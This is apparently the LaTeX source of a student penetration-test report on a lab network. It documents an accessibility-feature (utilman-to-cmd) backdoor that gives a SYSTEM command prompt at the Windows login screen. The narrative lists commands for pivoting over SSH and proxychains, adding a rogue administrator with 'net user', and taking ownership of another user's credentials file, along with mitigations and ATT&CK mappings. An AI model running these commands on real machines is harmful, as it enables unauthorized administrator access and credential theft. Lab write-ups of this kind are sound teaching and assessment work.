%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test Report Title}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Technical Report}
% Include one of these headings for each finding.

  \subsection{Finding: \emph{NT AUTHORITY/SYSTEM Escalation}}
  
	\subsubsection*{Severity Rating}
    Risk: Medium \\
    \cvss(L,H,H,R,U,H,H,L, 5.8)
		
  	\subsubsection*{Vulnerability Description}
  		Due to the reset script, it is possible for a user to open a command prompt as NT AUTHORITY/SYSTEM from the login screen
        by clicking on the accessibility button. From here, an attacker could create an admin user with full access to all domain users
        information.

  	\subsubsection*{Confirmation method}
  	The attacker must have access to innerouter first and create a port forward from innerouter to books.arstailor.com. The attacker can then remote
    desktop to books.artstailor.com. Once on the login page, the attacker can press the accessibility button and a command prompt instantiated by AUTHORITY
    will be initiated. Using the command
\begin{verbatim}
net user username password /add
net localgroup username /add
\end{verbatim}
    Will allow the attacker to create an admin account and be able to access any file of all local domain users.

    \subsubsection*{Mitigation or Resolution Strategy}
    To avoid this issue, the reset function should be removed. Another method to stop Oliver from accessing Debbies passwords must be used as this is allowing for any
    attacker to gain complete admin to all users which is of higher importance than Debbies account. Debbie needs to create stronger passwords and this function must be 
    terminated. The registry entry for utilman to cmd.exe must also be removed and the previous batch files must be removed.



\section{Attack Narrative}

    \subsection{Remote Desktop Access}
    To gain remote desktop access to books, ssh and rdesktop were employed. To begin, the following command was used
    \begin{verbatim}
sudo service start ssh
rdesktop -g 90% innerouter.artstailor.com
    \end{verbatim}
    Once we log in to innerouter using the pr0b3 credentials, we can open up a command prompt from inside and connect to kali 
  \begin{verbatim}
ssh -R 1081 kali@172.24.0.10 
  \end{verbatim}
  Now, we can create a tmp directory and use this directory to store any results we might get from books. We can then connect as follows
   \begin{verbatim}
proxychains -g 90% books.artstailor.com -r disk:win32=/tmp/ex0d0
   \end{verbatim}

   \subsection{NT AUTHORITY/SYSTEM access}
    We are now in the login page, if we enter using the credentials found in previous exercises, we can then open the command prompt and run {\\}reset.
    This command is blocked, but examining the contents reveals some hints as to what we want to do. \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0d0/reset} \\
    We can see in this script that utilman.exe is remapped to cmd.exe and we can also see that there is a cmd-5.bat in the c drive which signifies that this 
    command has been run before and thus the listed remap should work. We know we need to reboot the machine and then access the utility manager from the login 
    which will launch a command prompt and this command prompt is initialized as the system authority that we want. Rebooting the machine and clicking the 
    accessibility button in the bottom right reveals that this is the case. \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0d0/nt} \\
    While in this command prompt, I made a temporary admin user to allow for easier exploration so the commands
\begin{verbatim}
net user username password /add
net localgroup Administrators username /add
\end{verbatim}
    These credentials were then used to login as an admin to books.
    
    \subsection{Exploration and Key}
    With admin permissions, we can now explore the users directories. Looking around revealed a file called "creds" by l.strauss. Opening up the 
    file permissions by right clicking the file allowed me access to change the user permissions temporarily. I used this to grant myself access to the file.
    Before we do this however, we need to go to the command line and type in the following command
    \begin{verbatim}
takeown /f C:\users\l.strauss\documents\creds
    \end{verbatim}
    which then gives us this popup if we right click the file and go to properties.

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0d0/permissions} \\
   Changing these permissions gave me access to this file with a list of account passwords. Below is a partial password as proof of exploitation.
   \begin{verbatim}
Windows: 0p...er
   \end{verbatim}
    and the following keys were found, one in creds and another in a different document
    
    \begin{verbatim}
KEY013-Hdco+146WmFI8AfAxeFEvQ==
KEY014-Ea0alCyO8It7TqmQNMWPcQ==
    \end{verbatim}

    \subsection{MITRE ATT{\&}CK Framework TTPs}	
	\subsubsection*{}
	\ttp(TA0004, Privilege Escalation, T1546, Event Triggered Execution, .008, Accessibility Features)
    
    \subsubsection*{}
    \indent\textbf{TA0005}: Defense Evasion \\
    \indent\indent\textbf{File and Directory Permission Modification:} T1222 \\

\end{document} 
